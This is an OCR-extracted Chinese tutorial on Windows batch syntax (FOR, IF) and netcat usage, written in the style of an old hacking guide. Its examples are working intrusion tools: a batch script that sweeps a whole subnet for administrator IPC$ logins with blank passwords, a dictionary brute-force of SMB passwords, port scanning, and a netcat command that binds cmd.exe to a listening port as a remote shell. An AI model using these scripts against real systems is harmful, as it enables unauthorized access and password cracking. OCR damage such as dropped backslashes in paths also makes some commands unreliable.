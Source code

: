 - telnet IP telnet 连接对方主机（同 win2K），当出现 bash\$时就说明连接成功。
- ftp ftp 连接上某服务器（同 win2K）
  批处理命令与变量
  1：for 命令及变量 基本格式
- FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。
  批处理每次能处理的变量从%0—%9 共 10 个，其中%0 默认给批处理文件名使用，%1 默认为使用此批处理时输入的的第一个值，同理：%2—%9 指输入的第 2-9 个值；例：net use ipipc\$ pass /user:user 中 ip 为%1,pass 为%2 ,user 为%3
  (set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ “(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从 1 到 254；“(1 -1 254)”说明：即从 254 到 1 }
- command：指定对第个文件执行的命令，如：net use 命令；如要执行多个命令时，命令这间加：& 来隔开
- command_parameters：为特定命令指定参数或命令行开关
- IN (set)：指在(set)中取值；DO command ：指执行 command
  参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。
  用法举例：
  @echo off
- echo 用法格式：test.bat _._.\* > test.txt
- for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt
  存为 test.bat 说明：对指定的一个 C 类网段的 254 个 IP 依次试建立 administrator 密码为空的 IPC$连接，如果成功就把该IP存在test.txt中。
/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用 find 查看是否有"命令成功完成"信息；%1.%%G 为完整的 IP 地址；(1 1 254) 指起始值，增长量，结止值。
  @echo off
- echo 用法格式：ok.bat ip
- FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200
  存为：ok.exe 说明：输入一个 IP 后，用字典文件 d:pass.dic 来暴解 d:user.dic 中的用户密码，直到文件中值取完为止。%%i 为用户名；%1 为输入的 IP 地址（默认）。
  七：
  2：if 命令及变量 基本格式
- IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。
  例：IF errorlevel 0 命令 指程序执行后返回的值为 0 时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于 1，就执行后面的命令。
  0 指发现并成功执行（真）；1 指没有发现、没执行（假）。
- IF [not] 字符串 1==字符串 2 命令语句 如果指定的文本字符串匹配（即：字符串 1 等于 字符串 2），就执行后面的命令。
  例：“if "%2%"=="4" goto start”指：如果输入的第二个变量为 4 时，执行后面的命令（注意：调用变量时就%变量名%并加" "）
- IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。
  例：“if not nc.exe goto end”指：如果没有发现 nc.exe 文件就跳到":end"标签处。
- IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串 1==字符串 2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行 else 后面的命令。注意：else 必须与 if 在同一行才有效。 当有 del 命令时需把 del 命令全部内容用< >括起来，因为 del 命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如："if exist test.txt. <del test.txt.> else echo test.txt.missing "，注意命令中的“.”
  系统外部命令
  注：系统外部命令(均需下载相关工具)
  瑞士军刀：nc.exe
  参数说明：
- -h 查看帮助信息
- -d 后台模式
- -e prog 程序重定向，一但连接就执行[危险]
- -i secs 延时的间隔
- -l 监听模式，用于入站连接
- -L 监听模式，连接天闭后仍然继续监听，直到 CTR+C
- -n IP 地址，不能用域名
- -o film 记录 16 进制的传输
- -p[空格]端口 本地端口号
- -r 随机本地及远程端口
- -t 使用 Telnet 交互方式
- -u UDP 模式
- -v 详细输出，用-vv 将更详细
- -w 数字 timeout 延时间隔
- -z 将输入，输出关掉（用于扫锚时）
  基本用法：
- nc -nvv192.168.0.1 80 连接到 192.168.0.1 主机的 80 端口
- nc -l -p 80 开启本机的 TCP 80 端口并监听
- nc -nvv -w2 -z192.168.0.1 80-1024 扫锚 192.168.0.1 的 80-1024 端口
- nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定 remote 主机的 cmdshell 在 remote 的 TCP 5354 端口
